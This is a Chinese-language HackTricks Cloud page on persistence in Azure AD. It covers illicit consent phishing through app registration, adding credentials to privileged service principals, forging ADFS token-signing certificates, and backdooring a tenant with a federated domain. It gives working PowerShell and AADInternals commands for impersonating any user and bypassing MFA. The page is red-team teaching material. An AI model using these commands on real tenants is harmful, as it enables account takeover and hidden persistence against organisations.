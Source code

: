 # Az - 持久性

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 非法同意授权

默认情况下，任何用户都可以在 Azure AD 中注册应用程序。因此，您可以注册一个需要高影响权限的应用程序（仅针对目标租户），并获得管理员同意（如果您是管理员则批准）——例如代表用户发送邮件、角色管理等。这将使我们能够**执行网络钓鱼攻击**，如果成功将非常**有利**。

此外，您还可以接受该应用程序，以便通过您的用户保持对其的访问。

### 应用程序和服务主体

拥有应用程序管理员、GA 或具有 microsoft.directory/applications/credentials/update 权限的自定义角色的权限，我们可以向现有应用程序添加凭据（密钥或证书）。

可以**针对具有高权限的应用程序**或**添加具有高权限的新应用程序**。

一个有趣的角色是**特权身份验证管理员角色**，因为它允许**重置**全局管理员的密码。

此技术还允许**绕过 MFA**。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 用于基于证书的身份验证

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### 联邦 - 令牌签名证书

在本地 AD 上拥有 **DA 权限**，可以创建和导入有效期非常长的 **新令牌签名** 和 **令牌解密证书**。这将允许我们 **以任何用户身份登录**，前提是我们知道他们的 ImuutableID。

**在 ADFS 服务器上以 **DA 身份运行**以下命令以创建新证书（默认密码 'AADInternals'），将其添加到 ADFS，禁用自动滚动并重启服务：
```powershell
New-AADIntADFSSelfSignedCertificates
```
然后，使用 Azure AD 更新证书信息：
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

在租户上拥有 GA 权限时，可以**添加一个新域**（必须经过验证），将其身份验证类型配置为联邦，并将该域配置为**信任特定证书**（以下命令中的 any.sts）和颁发者：
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考文献

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
学习和实践 AWS Hacking：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP Hacking：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
